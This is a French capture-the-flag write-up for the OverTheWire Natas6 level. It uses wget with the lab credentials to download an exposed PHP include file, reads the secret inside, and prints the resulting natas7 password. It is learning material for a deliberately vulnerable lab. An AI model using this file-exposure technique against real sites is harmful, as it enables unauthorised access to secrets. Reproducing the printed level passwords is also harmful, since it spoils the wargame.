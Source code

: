 ## Over-The-Wire -writeup-
### Natas6 (http://natas6.natas.labs.overthewire.org/)

---
#### Etape 1

Un code est demandé, et on a accès à la source de la page index.html et de son box input.  
Dans le code HTML **on trouve une section PHP**:

```php
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

Le fichiers "secret.inc" est inclus dans la page HTML, et ensuite PHP compare ce que l'utilisateur entre comme code ($_POST['secret']) et le code secret du serveur (variable $secret, dont la valeur se trouve dans secret.inc)  

On va donc récupérer le fichier secret.inc qui se trouve dans le dossier /includes/ du site.

Pour cela j'utilise **wget** :

Structure de la commande pour récupérer un fichier: `wget http://target-address/file`
Structure de la commande pour se connecter avec des identifiants: `wget --user [username] --password [password]`

**Fusionnons les deux**:  
`wget -user [username] --password [password] http://target-address/file`

**Enfin, dans notre cas, la commande exacte est**:  
`wget --user natas6 --password aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc`

---
#### Etape 2

Une fois le fichier secret.inc récupéré, cat-ons le:
```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```
Le code a rentrer dans le box d'input est donc **FOEIUWGHFEEUHOFUOIU**, qui se comparera à lui-même, sera donc égal à lui-même et satisfiera la condition pour dévoiler la balise "*censored*".

Une fois le code rentré et le bouton "Sumbit Query" cliqué, un texte apparaît:
`Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`

---
Mot de passe: **7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**
